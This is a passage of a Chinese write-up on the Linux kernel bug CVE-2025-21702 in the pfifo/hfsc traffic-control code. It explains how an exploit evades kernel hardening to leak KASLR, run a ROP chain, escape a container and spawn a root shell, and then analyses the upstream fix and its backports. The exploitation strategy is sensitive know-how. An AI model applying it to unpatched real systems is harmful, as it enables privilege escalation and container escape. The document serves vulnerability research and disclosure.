5. **CONFIG_MEMCG / CONFIG_MEMCG_KMEM**：为受控进程创建独立的 `kmalloc-cg-*` 缓存，与普通 `kmalloc-*` 隔离。该机制不影响 slab 层面的堆布局操作。核心依赖的是 kmalloc-1k 缓存中对象的分配与释放顺序，与 cgroup 缓存隔离无关。

6. **CONFIG_SLAB_FREELIST_RANDOM**：随机化 SLUB 空闲链表中的对象顺序，增加同一 slab 内分配顺序的预测难度。该机制作用于 SLUB 分配器内部，不影响本方案的核心操作。本方案通过批量分配 `user_key_payload` 来回收 UAF 槽位，并扫描所有喷发密钥以定位重叠对象，因此不依赖对 freelist 顺序的精确预测。

7. **CONFIG_SLAB_FREELIST_HARDENED**：对空闲链表指针进行异或混淆，并在 `set_freepointer()` 中通过 `BUG_ON(object == fp)` 检测双重释放。本方案中 `hfsc_class` 仅被释放一次，后续通过 `user_key_payload` 回收，不构成双重释放，因此 `BUG_ON` 检测不会触发。

8. **CONFIG_INIT_ON_ALLOC_DEFAULT_ON**：该机制在分配 slab 对象时会对内存进行清零。本方案中，`user_key_payload` 的内容由 `key_alloc()` 从用户态显式填充，不依赖分配时的残留数据；`xfrm_policy` 本身即通过 `kzalloc()` 分配，无论该配置是否启用，其初始内容均为零。因此，该机制对本方案的堆布局与对象构造均无影响。

9. **CONFIG_HARDENED_USERCOPY**：在 `copy_to_user()` / `copy_from_user()` 路径中增加边界检查。本方案的越界读取发生在 `user_key_payload` 的 `data[]` 区域内，`datalen` 已被放大，`copy_to_user()` 的长度参数与之一致，因此边界检查能够通过。

整体而言，本方案通过 `key_read()` 越界读取内核函数指针、slab 层面的内存布局操作以及内核态内部的 ROP 链执行，有效规避了上述保护机制。方案不依赖页表操作，也不依赖用户态直接访问内核虚拟地址空间。

### 3-10. 前提条件与局限性

**前提条件**

1. 目标内核启用了 `CONFIG_NET_SCHED`、`CONFIG_NET_SCH_FIFO`、`CONFIG_NET_SCH_HFSC` 等流量控制相关配置。
2. 目标内核启用了非特权用户命名空间（`CONFIG_USER_NS`）与网络命名空间（`CONFIG_NET_NS`），使得普通用户可以获得 `CAP_NET_ADMIN` 与 `CAP_NET_RAW` 能力。
3. **目标内核未启用 `CONFIG_RANDOM_KMALLOC_CACHES`**。该配置在 Linux v6.6 及更高版本中引入，启用后会为每个调用点随机化 kmalloc 缓存，使同一大小的对象分散到多个随机化的缓存中。本方案的堆读原语与代码执行原语均依赖 `hfsc_class`、`user_key_payload`、`xfrm_policy` 等对象在 kmalloc-1k 缓存中的稳定布局。若该配置启用，这些对象将被分散到不同的随机缓存中，UAF 槽位的回收与越界读取将无法命中预期目标。因此，该配置未启用是本方案成功的前提条件。
4. 目标内核的 SLUB 分配器行为与方案假设一致，能够通过 slab 层面的操作实现预期的内存布局。

**局限性**

1. 方案依赖于精确的时序控制与内存布局，在负载较高或中断频繁的环境中可能降低成功率。
2. 方案需要多次尝试才能获得稳定的 KASLR 泄漏与代码执行结果，重试次数受限于预设的上限 `MAX_LEAK_ATTEMPTS`。
3. 方案对内核版本有一定要求，不同版本的结构体偏移与函数地址可能不同，需要针对目标版本进行调整。
4. 方案不适用于已启用严格控制流完整性（CFI）或影子栈（Shadow Stack）等额外保护机制的内核。
5. **若目标内核启用了 `CONFIG_RANDOM_KMALLOC_CACHES`，本方案所依赖的 slab 布局稳定性将被破坏，需要针对该配置调整堆喷策略或寻找其他利用路径**。

### 3-11. 章节总结

本章围绕 **CVE-2025-21702** 的利用思路展开，方案共分为六个阶段：环境初始化、堆读上下文准备、堆读原语构造、KASLR 绕过、代码执行上下文准备，以及代码执行原语的构造与触发。整个方案依赖两个相互独立的 UAF 槽位：第一个用于构建堆读原语并完成 KASLR 绕过，第二个用于构建代码执行原语并完成权限提升。两个阶段共享相同的 UAF 构造流程，但各自独立执行，从而将信息泄露与权限提升在时序上分离，降低了因单一原语失败而导致整体不可用的风险。

在保护机制方面，方案充分考虑了 KASLR、SMEP、SMAP、KPTI、SLAB_FREELIST_RANDOM、SLAB_FREELIST_HARDENED、INIT_ON_ALLOC_DEFAULT_ON、HARDENED_USERCOPY 等现代内核防护特性，并通过 `key_read()` 越界读取内核函数指针、slab 层面的内存布局操作以及内核态内部的 ROP 链执行等设计选择，有效规避了这些机制。ROP 链中，`switch_task_namespaces()` 完成命名空间切换的内核侧操作，`get_root_shell()` 则通过 `setns()` 进入 PID 1 的挂载、PID 与网络命名空间视图，完成容器逃逸并启动 root shell。整体方案不依赖页表操作，也不依赖用户态直接访问内核虚拟地址空间。

为应对 slab 布局的不确定性，方案将整个 KASLR 绕过流程——包括堆读上下文准备、堆读原语构造、越界读取与内核基址计算——作为一个整体进行重试。若其中任一环节失败，则清理全部已分配资源，回到 KASLR 阶段起点重新进行环境布局与堆喷。重试次数由 `MAX_LEAK_ATTEMPTS` 控制，兼顾成功率与执行时间。权限提升阶段的现有实现未引入重试机制；若需进一步提高稳定性，可在该阶段添加有界重试循环，重新构造第二个 UAF 槽位并重新布置伪造 Qdisc 与 ROP 链。

### 3-12. 测试结果一

<div style="text-align: center; margin: 2rem 0;">
  
</div>

### 3-13. 测试结果二

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 4. 漏洞修复

### 4-1. 修复补丁概述

**CVE-2025-21702** 的修复提交标题为 `pfifo_tail_enqueue: Drop new packet when sch->limit == 0`，提交哈希为 `647cef20e649c576dff271e018d5d15d998b629d`。该补丁由 Quang Le 报告并提交，经 Cong Wang 审阅，最终由 Jakub Kicinski 合入 Linux 主线，合入时间为 2025 年 2 月 5 日，对应主线版本 v6.14-rc2。

修复方式是在 `pfifo_tail_enqueue()` 的入口处增加提前返回检查：当 `sch->limit == 0` 时，直接丢弃传入的数据包并返回，不再进入后续的慢速路径。

### 4-2. 补丁的技术分析

根据补丁提交信息，`pfifo_tail_enqueue()` 的预期行为如下：当队列达到 `sch->limit` 时，函数丢弃队列中已存在的数据包并将 `qlen` 减 1，随后将新数据包加入队尾并将 `qlen` 加 1，最终返回 `NET_XMIT_CN` 状态码。

当 `sch->limit == 0` 且队列中无数据包时，丢弃步骤因队列为空而不执行，`qlen` 保持为 0。随后函数继续将新数据包加入队尾，使 `qlen` 增加至 1，并返回 `NET_XMIT_CN`。

完整的补丁内容如下：

```diff
diff --git a/net/sched/sch_fifo.c b/net/sched/sch_fifo.c
index b50b2c2cc09bc..e6bfd39ff3396 100644
--- a/net/sched/sch_fifo.c
+++ b/net/sched/sch_fifo.c
@@ -40,6 +40,9 @@ static int pfifo_tail_enqueue(struct sk_buff *skb, struct Qdisc *sch,
 {
 	unsigned int prev_backlog;

+	if (unlikely(READ_ONCE(sch->limit) == 0))
+		return qdisc_drop(skb, sch, to_free);
+
 	if (likely(sch->q.qlen < READ_ONCE(sch->limit)))
 		return qdisc_enqueue_tail(skb, sch);
```

补丁在慢速路径之前增加 `sch->limit == 0` 的判断。条件成立时，函数调用 `qdisc_drop()` 丢弃新数据包并直接返回。此时 `qlen` 不会发生变化。

### 4-3. 漏洞利用链的切断

根据补丁提交信息，当父 qdisc 将数据包路由至子 qdisc 时，若子 qdisc 的 `sch->limit == 0`，则会出现以下情况：子 qdisc 的 `qlen` 增加 1，函数返回 `NET_XMIT_CN`；父 qdisc 检查返回值，发现非 `NET_XMIT_SUCCESS`，因此不增加自身 `qlen`。最终父 qdisc 的 `qlen == 0`，子 qdisc 的 `qlen == 1`，父子队列长度的一致性被破坏。补丁提交信息同时指出，将 `hfsc` 替换为 `drr` 等其他类型仍会导致相同问题。

补丁在入口处阻断上述过程。当 `sch->limit == 0` 时，`pfifo_tail_enqueue()` 不再执行追加步骤，子 qdisc 的 `qlen` 不会递增，函数返回 `NET_XMIT_DROP` 而非 `NET_XMIT_CN`。父子队列长度在边界条件下保持一致。

### 4-4. 补丁的演进意义

根据补丁提交信息，该漏洞的根源是 `pfifo_head_drop` 在 `sch->limit == 0` 时的行为违背了设计预期：父 qdisc 的 `qlen` 应等于所有子 qdisc 的 `qlen` 之和。补丁通过在入口处丢弃新数据包，使该边界条件下的行为与队列容量为零的语义保持一致，恢复了上述设计契约。

### 4-5. 修复版本与回溯状态

修复提交 `647cef20e649c576dff271e018d5d15d998b629d` 于 2025 年 2 月 5 日合入主线，对应 v6.14-rc2。该补丁已被回溯至多个稳定版本，涵盖受影响的各个分支：

- `>= 2.6.34 < 5.4.291`
- `>= 5.5 < 5.10.235`
- `>= 5.11 < 5.15.179`
- `>= 5.16 < 6.1.130`
- `>= 6.2 < 6.6.83`
- `>= 6.7 < 6.12.14`
- `>= 6.13 < 6.13.3`
- `6.14-rc1`

各主要 Linux 发行版已同步发布安全更新。

### 4-6. 修复的技术要点

该修复的技术要点可归纳为以下三点。

1. 提前返回。在函数入口处增加 `sch->limit == 0` 的判断，使该边界条件不进入后续的丢弃与追加逻辑。
2. 丢弃新包。当 `limit == 0` 时，新到达的数据包无法被接纳，调用 `qdisc_drop()` 将其丢弃。
3. 保持计数一致。不再执行追加步骤，子 qdisc 的 `qlen` 不递增；函数返回 `NET_XMIT_DROP`，父 qdisc 的 `qlen` 也不因返回值语义产生偏差。

## 5. 免责声明

本文档旨在提供 **CVE-2025-21702** 漏洞的技术分析与教育性内容，仅供学习、研究和安全防御目的使用。作者与发布平台对以下事项声明如下：

1. **合法使用原则**：本文档中描述的任何技术细节、代码示例或利用方法仅供教育研究之用。读者不得将这些信息用于任何非法、未经授权或恶意的活动，包括但不限于未经授权的系统入侵、数据破坏、服务干扰或其他违反法律法规的行为。

2. **知识共享与责任**：本文档基于公开可获取的信息、官方漏洞公告和学术研究资料编写。作者力求确保技术内容的准确性，但不对信息的完整性、时效性或适用性作任何明示或暗示的保证。读者应自行验证信息的准确性，并在专业环境中谨慎应用。

3. **环境限制**：所有技术分析和实验应在受控的、隔离的测试环境中进行，例如使用特制的虚拟机或专用硬件。禁止在任何生产环境、公共网络或他人系统中尝试漏洞利用或相关技术。

4. **法律合规性**：读者应遵守所在国家或地区的所有适用法律法规，包括但不限于计算机安全法、数据保护法和知识产权法。任何使用本文档内容的行为所产生的法律后果，由行为者自行承担。

5. **技术中立性**：本文档对漏洞的分析保持技术中立立场，旨在促进安全社区的防御能力提升。文中提及的任何工具、技术或方法不应被视为对任何组织、产品或技术的背书或批判。

6. **更新与修正**：技术领域发展迅速，本文档内容可能随时间而过时。作者保留更新、修正或撤回文档内容的权利，不承诺另行通知。

7. **版权声明**：本文档内容受版权法保护，未经明确书面许可，不得用于商业目的。允许在注明出处的前提下进行非商业性的分享与引用。

**重要提示**：安全研究应始终遵循道德准则，以提升整体网络安全为目标。如发现安全漏洞，建议通过负责任的披露流程向相关厂商或机构报告，共同维护数字生态的安全与稳定。

---

_本文档的撰写参考了公开的漏洞公告、内核源码（Linux 6.12.13 和 Linux 6.6.75）及相关技术分析文献。所有实验均在封闭的测试环境中完成，未对任何实际系统造成影响。_

## 参考

- https://github.com/BinRacer/pwn4cve/tree/master/src/CVE-2025-21702
- https://github.com/BinRacer/pwn4cve/tree/master/src/CVE-2025-21702_V2
- https://github.com/google/security-research/tree/master/pocs/linux/kernelctf/CVE-2025-21702_lts_cos
- https://bsauce.github.io/2026/01/27/CVE-2025-21702/
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=57dbb2d83d100ea601c54fe129bfde0678db5dee
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=647cef20e649c576dff271e018d5d15d998b629d
- https://nvd.nist.gov/vuln/detail/CVE-2025-21702
- https://ubuntu.com/security/CVE-2025-21702
